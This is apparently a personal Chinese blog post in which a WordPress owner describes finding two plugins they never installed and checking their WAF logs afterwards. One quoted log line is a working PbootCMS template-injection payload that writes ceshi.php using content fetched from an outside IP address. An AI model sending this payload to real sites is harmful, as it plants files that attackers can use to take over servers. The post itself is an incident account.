



## 事发

2月5日晚上10:05，我在做项目的时候需要扒一个favicon，便想着去自己的wp后台顺一个圆形的logo。可当我如往常一样登录之后，我发现自己的WP后台侧栏多了一个选项——“WP文件管理器”。



而我，从来没有安装过这个插件。

我慌了，赶紧点进“插件”页面，发现我的WP在不知情的情况下被装了两个新插件：



如果这两个插件真是我亲手安装的，那为什么我会一点印象都没有，甚至连插件是干什么的都不知道呢？

如果不是我安装的，那会是谁安装的呢？是通过什么技术手段安装的呢？

## 排查



事发之后，我火速排查了自己的宝塔WAF，发现这几天的攻击十分频繁，有的攻击还十分离谱——比如：

```
/?tag&tagstpl＝news.html&tag＝%7Bpbohome/Indexot:if((get/*-*/(/**/t))/**/(get/*-*/(/**/t1),get/*-*/(/**/t2)(get/*-*/(/**/t3))))%7Dok%7B/pbohome/Indexot:if%7D&t＝file_put_contents&t1＝ceshi.php&t2＝file_get_contents&t3＝http://110.40.132.172:800/1.TXT
```

这个大概意思应该是往我的网站目录里写入一个php文件，使其可以被访问。还好，“http://110.40.132.172:800/1.TXT”这个文件的PHP代码只是“test”，否则可能就没有现在的这篇文章了。
